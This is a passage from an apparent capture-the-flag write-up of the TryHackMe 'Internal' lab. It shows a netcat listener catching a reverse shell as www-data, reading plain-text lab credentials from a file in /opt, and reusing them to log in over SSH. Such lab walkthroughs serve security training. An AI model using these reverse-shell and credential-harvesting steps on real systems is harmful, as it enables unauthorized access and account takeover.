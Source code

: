 Boom!

***
# WWW-Data User Priv Esc

As we get our shell, we find some plain text credentials for aubreanna in the /opt directory
```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Internal2]
└─$ sudo nc -lnvp 53                                                                                                   1 ⨯
listening on [any] 53 ...
connect to [10.9.11.106] from (UNKNOWN) [10.10.169.52] 38918
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:15:07 up 28 min,  1 user,  load average: 0.01, 0.01, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
aubreann pts/0    10.9.11.106      22:48    1:07   0.22s  0.01s /bin/bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /opt
$ ls
containerd
wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
$ 
```
Let's see if we can SSH into this user's account.

```bash
┌──(raindayzz㉿redfish)-[~/TryHackMe/Internal2]
└─$ ssh aubreanna@internal.thm                                                                                                                                                                                         130 ⨯
aubreanna@internal.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug 18 23:17:47 UTC 2021

  System load:  0.0               Processes:              114
  Usage of /:   63.7% of 8.79GB   Users logged in:        0
  Memory usage: 44%               IP address for eth0:    10.10.169.52
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

```